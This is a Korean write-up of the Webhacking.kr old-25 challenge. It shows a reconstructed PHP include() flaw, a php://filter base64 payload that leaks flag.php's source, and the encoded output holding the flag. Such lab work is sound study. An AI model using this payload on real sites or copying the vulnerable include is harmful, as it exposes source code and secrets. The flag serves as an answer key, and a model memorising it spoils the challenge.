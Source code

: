```yaml
---
title: ["[Webhacking.kr] old-25 (lfi - 15)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, lfi, php wrapper]
---
```

## Intro
![문제 설명](assets/img/writeup/webhacking.kr/old-25/recon.png)

`file` 인자로 주는 값에 `.php`를 붙여 실행시키는 기능이 있어 보인다.  

## Analysis

```php
<?php
// index.php

if(isset($_GET['file'])) {
    $file = $_GET['file'];
    
    // Check file 
    if(file_exists($file . '.php')) {
        // run PHP file
        include($file . '.php');
    }
} 
?>
```  
백엔드의 코드는 이런식으로 인자로 받은 파일을 실행시킬 것이다.  
PHP의 `include`, `fopen`, `file_get_contents`와 같은 파일 시스템 관련 함수들은 모두 PHP wrapper를 인식하고 처리할 수 있다.  


`PHP wrapper`는 URL을 통해 다양한 리소스에 접근할 수 있게 해주는 기능이다.  
문제에서 flag는 code에 있다고 했으므로,  
`flag.php`의 소스코드를 필터를 사용해서 노출시킬 수 있다.  


## Payload

```
?file=php://filter/convert.base64-encode/resource=flag
```

```
PD9waHAKICBlY2hvICJGTEFHIGlzIGluIHRoZSBjb2RlIjsKICAkZmxhZyA9ICJGTEFHe3RoaXNfaXNfeW91cl9maXJzdF9mbGFnfSI7Cj8+Cg==
```  
출력값을 base64 디코딩하면 된다.  